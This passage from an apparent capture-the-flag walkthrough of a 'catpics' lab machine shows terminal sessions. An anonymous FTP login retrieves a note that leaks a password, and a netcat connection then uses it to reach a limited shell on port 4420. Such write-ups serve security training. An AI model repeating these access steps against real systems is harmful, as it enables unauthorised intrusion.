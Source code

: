 ## Anonymous FTP

We now see port 21 hosting FTP has opened, and there is anonymous logins allowed. Let's go look at the file the scan found:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# ftp catpics.thm
Connected to catpics.thm.
220 (vsFTPd 3.0.3)
Name (catpics.thm:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.

ftp> get note.txt /dev/tty
local: /dev/tty remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
226 Transfer complete.
162 bytes received in 0.00 secs (1.5000 MB/s)
```

## Internal Shell

We've found credentials for the service we saw earlier running on port 4420. Let's give it a go:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# nc -v catpics.thm 4420                                                                                                                                                                                                               1 ⨯
catpics.thm [10.10.158.78] 4420 (?) open
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
```

That worked and we're in the server but with a limited shell. A quick look around shows there is very little exposed to us, I do find this though:
